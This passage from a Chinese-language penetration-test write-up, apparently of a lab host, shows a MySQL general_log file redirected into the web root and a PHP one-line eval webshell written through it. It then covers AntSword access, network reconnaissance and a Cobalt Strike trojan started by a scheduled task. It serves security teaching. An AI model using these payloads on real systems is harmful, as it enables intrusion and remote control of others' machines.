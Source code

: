 开启全局日志后修改绝对路径，注意这里有一个坑，日志给我们返回的路径是`C:\\phpStudy\\MySQL\\data\\stu1.log`，但是mysql访问的绝对地址为`C:\\phpStudy\\WWW`目录下的文件，所以这个地方写shell必须要写到WWW目录下才能够用蚁剑连接上

- 

```php
set global general_log_file='C:\\phpStudy\\WWW\\shell.php';
```

![图片](https://shs3.b.qianxin.com/butian_public/f49b28447f592f42a48ad858c2bd66d9b.jpg)

这里再写入一句话木马

- 

```php
select '<?php eval($_POST[cmd]);?>'
```

![图片](https://shs3.b.qianxin.com/butian_public/fd8797d2e011d4d2c06809afb0364c009.jpg)

然后再上蚁剑连接即可

![图片](https://shs3.b.qianxin.com/butian_public/f4b3578b6a8770ae612d64f5e92a8cdf0.jpg)

可以看到连接成功

![图片](https://shs3.b.qianxin.com/butian_public/ff39ecad4571ebc6c7d919b870a58e597.jpg)

**0x04 内网信息搜集**

查看下系统的权限，一上来就是administrator权限就很舒服

![图片](https://shs3.b.qianxin.com/butian_public/ffa95947dd12c7601ac9834d7efed7a1b.jpg)

`ipconfig /all`查看网络信息，域环境+双网卡

![图片](https://shs3.b.qianxin.com/butian_public/feb39a62e35c2d96e20c135e62232d789.jpg)

![图片](https://shs3.b.qianxin.com/butian_public/ff8247378bdc8cae111e5e5556d8731f6.jpg)

`tasklist /svc`粗略看了一下，似乎是没有杀软的

![图片](https://shs3.b.qianxin.com/butian_public/f89c1c8500d768d3ab9ededeb8148bf69.jpg)

想着没有杀软，那么直接用最简单粗暴的上cs更省心，上传一个cs生成的木马exe到目标主机上

![图片](https://shs3.b.qianxin.com/butian_public/f6bb5b92a2c40b79dac27d8484d02f347.jpg)

用计划任务上线cs

![图片](https://shs3.b.qianxin.com/butian_public/fd8fe409461302cba43bfce8498d269d9.jpg)

成功上线

![图片](https://shs3.b.qianxin.com/butian_public/fad011ec08f8a4d8db347af696a85ea0f.jpg)
